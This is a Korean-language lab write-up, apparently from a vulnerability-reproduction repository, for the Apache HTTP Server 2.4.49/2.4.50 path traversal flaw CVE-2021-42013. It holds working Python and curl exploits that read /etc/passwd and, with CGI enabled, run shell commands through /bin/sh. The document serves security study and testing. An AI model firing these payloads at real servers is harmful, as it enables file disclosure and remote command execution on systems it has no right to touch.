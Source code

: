 # Apache HTTP Server 2.4.50의 Path traversal & file disclosure 취약점 (CVE-2021-42013)

CVE-2021-42013은 이전 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)의 패치가 불완전하게 적용되어 발생한 취약점으로, 공격자가 Alias 계열 지시어로 설정된 디렉터리 외부의 파일을 경로 탐색(path traversal) 공격을 통해 노출시킬 수 있다.

이 취약점은 Apache HTTP Server **2.4.49** 및 **2.4.50** 버전에 영향을 미치며 이전 버전에는 영향을 미치지 않는다.

참고 자료:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 환경 구성

취약한 Apache HTTP 서버 구성을 위해 Dokerfile과 docker-compose.yml 파일을 같은 폴더에 넣은 후 아래 명령어를 실행한다.
```
docker compose build
docker compose up -d
```

서버가 실행된 후 `http://<IP 주소>:8080`으로 접속하면 Apache 기본 페이지의 "It works!"를 볼 수 있다.
![](1.png)

## PoC.py 실행
Apache HTTP Server 2.4.50에서는 CVE-2021-41773 페이로드(`http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`)를 차단하였으나 패치가 불완전하여 우회가 가능하다.
icons 폴더 `.%2e`대신 `.%%32%65`를 사용하면 우회할 수 있다.

해당 페이로드는 내부적으로 `icons/../../../../../../etc/passwd`로 처리되고 icons 디렉터리에서 상위 디렉터리로 이동하여 `/etc/passwd`에 접근한다.

PoC.py 실행에 Python의 requests 라이브러리를 사용하므로 `pip install requests`를 통해 미리 설치한다.

- PoC.py
```
# /etc/passwd 정보 노출 file disclosure
def path_traversal(host="localhost", port=8080, depth=7):

    path = "/".join([".%2e"] * depth) # .%2e 를 depth만큼 반복
    url = f"http://{host}:{port}/icons/{path}/etc/passwd"
    print(f"[+] 파일 정보 노출 테스트:\n    {url}\n")

    r = requests.get(url, allow_redirects=True)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```

![](2.png)

- CMD
```
curl -v --path-as-is http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
 `/etc/passwd` 파일을 성공적으로 확인할 수 있다.

![](3.png)

# Path traversal
서버에 CGI(mod_cgi 또는 mod_cgid) 모듈이 활성화되어 있으면, 동일한 기법으로 임의 명령 실행까지 가능하다
- PoC.py
```
# CGI RCE 테스트
def cgi_rce(host="localhost", port=8080, depth=7, cmd="id"):

    path = "/".join([".%2e"] * depth)
    url = f"http://{host}:{port}/cgi-bin/{path}/bin/sh"
    print(f"[+] CGI RCE 테스트:\n    {url}\n    cmd: {cmd}\n")

    payload = f"echo; {cmd}" # echo;id 
    r = requests.post(url, data=payload)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```

![](4.png)

- CMD
```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![](5.png)
 id 명령 실행 결과가 그대로 반환되는 것을 확인할 수 있다.
